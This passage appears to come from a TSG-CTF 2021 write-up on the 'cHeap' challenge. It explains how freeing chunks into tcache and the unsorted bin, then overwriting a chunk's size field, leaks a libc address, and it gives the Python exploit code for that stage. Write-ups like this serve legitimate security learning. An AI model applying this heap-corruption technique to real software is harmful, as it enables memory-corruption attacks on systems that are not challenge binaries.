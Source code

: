 After free the yellow part, it will be inserted to unsorted bin and the FD and PK are fill with libc address, I malloc(0xf0) again to comback the first chunk and fill it with 0x100 charracter ‘A’, and call function show() to leak the address.

![](/2021/TSG-CTF/cHeap/images/8.png)

So I successfully leak libc address

```python
#Part 1: leak libc

# Create first chunk use for change size of second chunk
create(0xf0, b'\n')
delete()

# Create the second and third chunk with the total size > 0x410 to out of tcache
create(0x200, b'\n')
delete()

create(0x400, b'\n')
delete()

# create chunk to prevent it from top chunk
create(0x90, b'\n')
delete()

# comeback to first chunk due to tcache and edit size of second chunk to be the total size of second and third chunk
payload = b'A' * 0xf0 + p64(0) + p64(0x621) + b'\n'
create(0xf0, payload)
delete()

# now create a chunk 0x200 with give us address of second chunk (with new size, so we have a chunk size 0x620)
create(0x200, b'\n')
# free it and it now go to the unsorted bin
delete()

```